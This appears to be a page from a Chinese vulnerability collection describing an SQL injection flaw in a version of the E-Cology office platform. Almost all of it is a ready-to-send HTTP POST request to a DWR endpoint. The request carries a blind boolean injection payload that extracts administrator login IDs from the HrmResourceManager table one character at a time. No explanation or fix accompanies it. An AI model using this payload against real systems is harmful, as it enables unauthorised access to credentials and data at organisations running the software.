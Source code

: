 ## 某微 E-Cology 某版本 SQL注入漏洞
```
POST /dwr/call/plaincall/DocDwrUtil.ifNewsCheckOutByCurrentUser.dwr HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Content-Length: 191
Accept-Encoding: gzip
Connection: close
Content-Type: text/plain
 
callCount=1
page=
httpSessionId=
scriptSessionId=
c0-scriptName=DocDwrUtil
c0-methodName=ifNewsCheckOutByCurrentUser
c0-id=0
c0-param0=string:1 and ascii((select substring(loginid,1,1)from HrmResourceManager))=115
c0-param1=string:1
batchId=0
```
![3a380d7bbc888fb3314bb6b512b4e7db](../../images/6d40d284-0894-4c18-89dc-5a978d4f5c79.png)

